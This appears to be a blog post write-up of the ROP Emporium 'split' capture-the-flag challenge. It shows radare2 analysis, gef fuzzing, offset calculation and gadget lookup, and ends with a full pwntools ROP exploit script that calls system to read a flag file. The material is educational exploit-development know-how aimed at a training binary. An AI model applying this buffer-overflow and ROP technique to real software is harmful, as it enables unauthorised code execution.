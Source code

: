 ```yaml
---
layout: post
title:  "ROP Emporium - Split"
date:   2020-05-15 14:07:20
categories: [ROP]
excerpt: "This is the Second challenge from ROP Emporium, named as Split. In this challenge we have to create a small ROP Chain which execute system and give us the flag to complete the challenge. Through out this i am going to use radare2 as much as i can, just for the sake of learning the tool. Radare2 is a complete framework for reverse-engineering and analyzing binaries."

comments: true
---
```



## Introduction
This is the Second challenge from ROP Emporium, named as "Split". In this challenge we have to create a small ROP Chain which execute system and give us the flag to complete the challenge. Through out this i am going to use radare2 as much as i can, just for the sake of learning the tool. Radare2 is a complete framework for reverse-engineering and analyzing binaries.

###### Challenge Description 
Combine elements from the ret2win challenge that have been split apart to beat this challenge. Learn how to use another tool whilst crafting a short ROP chain. 

###### About the Binary:
Our binary is usual ELF executable in 64-bit architecture.Lets check what protection are on this binary, using rabin2, which comes with radare2 framework.

![source-01](/img/Screenshot_2020-05-13_12-32-28.png){: .align-left}


PIE isn't enabled and nx set to true, so we know shellcode cannot be executed off the stack and the binary has ASLR disabled.

## Analyzing the 64bit ELF binary
Lets load the binary with radare2 and dump the functions. The afl command list the functions. We can also output it as JSON using this command aflj~{}

![source-01](/img/Screenshot_2020-05-13_08-41-16.png){: .align-left}


Here we can see three interesting functions:

- main()
- pwnme()
- usefulFunction()

So lets disassemble the binary and see what these fucntions does!

###### main():


![source-01](/img/Screenshot_2020-05-13_08-44-57.png){: .align-left}


The only interesting thing here for us is, its calling the function name pwnme() which have overflow vulnerability.

###### pwnme():


![source-01](/img/Screenshot_2020-05-13_08-48-45.png){: .align-left}


Just like in retwin challenge, we have a 32 byte buffer that can be overflowed with fgets that takes 96 characters from the user.


###### usefulFunction()


![source-01](/img/Screenshot_2020-05-13_08-34-01.png){: .align-left}


This function directly call system with /bin/ls,which list the files in current working directory and there is also usefullstring which /bin/cat flag.txt. so we need to return to this function to exploit the binary successfuly. 


## Fuzzing:
So now the binary analysis is out of the way. Lets start fuzzing the binary. Generate the unique pattern and send to the program.

```
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: /root/Desktop/ROP/split/split/split 
split by ROP Emporium
64bits

Contriving a reason to ask user for data...
> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

Program received signal SIGSEGV, Segmentation fault.


```
As expected the program crashed and we have a valid crash scenario here.We have overwritten rsp with our unique patters.

![source-01](/img/Screenshot_2020-05-15_10-20-53.png){: .align-left}




###### Calculating offset

Copy the value in RSP to pattern offset tool.
```
gef➤  pattern offset 0x00007fffffffe048
[+] Searching '0x00007fffffffe048'
[+] Found at offset 40 (little-endian search) likely
[+] Found at offset 33 (big-endian search) 
gef➤  

```

#### Building ROP-Chain

Lets find the pieces we need to build a ROP chain.

> UsefulString “/bin/cat flag.txt” 

We can find all the strings in binary using rabin2. As we can see from the below img the address of UsefullString is (0x601060)


![source-01](/img/Screenshot_2020-05-15_14-55-41.png){: .align-left}


> sytem@plt

Using objdump we can grab the address of system@plt. As we can see from below img the address of systemis(0x4005e0)

![source-01](/img/Screenshot_2020-05-16_07-41-34.png	){: .align-left}


> pop rdi; ret

I used ROPGadget to find the pop rdi ret, as we can see from the below img the address is (0x400883)

![source-01](/img/Screenshot_2020-05-14_08-23-29.png	){: .align-left}



#### Exploitation 

As we have all the pieces to put together our ROPChain, Now let’s craft the payload.

Junk + pop_rdi + bin_cat + system_plt

b"A" * 40 + 0x0000000000400883 + 0x00601060 + 0x4005e0



Final exploit using pwntools:

```
 #!/usr/bin/python                                                                                                                                                    
 from pwn import *                                                                                                                                                    
                                                                                                                                                                      
 def main():                                                                                                                                                          
     context.log_level = "info"                                                                                                                                       
     elf = ELF('./split')                #binary path                                                                                                                 
     p = process(elf.path)                                                                                                                                            
     offset = b"A" * 40                  # RIP Offset at 40                                                                                                           
     usefullString = p64(0x00601060)     # Rabin2 -z split                                                                                                            
     system_plt = p64(0x4005e0)          # objdump -d split                                                                                                           
     pop_rdi = p64(0x0000000000400883)   # ROPgadget.py --binary split | grep 'pop rdi'                                                                               
     payload = offset + pop_rdi + usefullString + system_plt                                                                                                          
     p.sendlineafter(">",payload)                                                                                                                                     
     print (p.recvall())                                                                                                                                              
                                                                                                                                                                      
 if __name__ == "__main__":                                                                                                                                           
     main()   
```
Running the exploit!! w00t we got the flag!

![source-01](/img/Screenshot_2020-05-16_13-29-52.png){: .align-left}


###### End 

Thats the end of split challenge, we learned how to build a simple ROPChain. Cheers!.

> Code for this challenge  https://github.com/d3b4g/ROP-Emporium






